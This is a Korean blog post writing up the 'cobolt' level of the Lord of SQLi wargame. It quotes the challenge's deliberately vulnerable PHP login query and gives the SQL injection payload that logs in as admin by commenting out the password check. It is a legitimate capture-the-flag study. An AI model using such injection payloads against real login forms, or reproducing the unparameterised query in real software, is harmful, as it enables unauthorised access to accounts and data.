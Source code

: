 ```yaml
---
layout: post
title: ! "[LOS] cobolt"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - cobolt
  - write-up
---
```

![]({{ site.baseurl }}/assets/posts/los/cobolt.png)

첫번째 문제 gremlin을 풀고 cobolt로 넘어오면 gremlin과 비슷한 쿼리문이 있다.

`query: select id from prob_cobolt where id='' and pw=md5('')`

```php
<?php

  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

gremlin과 달라진 점이라면 id가 admin이어야 풀린다. 그리고 pw는 md5로 암호화된다.
gremlin에선 pw를 참으로 만들어줬지만, 이번엔 id가 admin이어야 하고, pw가 md5로 암호화 된다는 전제가 있으니
id는 admin으로 넣어주되, pw 부분을 주석 처리 해주는 방식으로 풀었다.

`?id=admin%27or%271=1%20--`

이런식으로 값을 넣으면 쿼리문은 다음과 같다.

![]({{ site.baseurl }}/assets/posts/los/cobolt_clear.png)

코볼트 클리어!
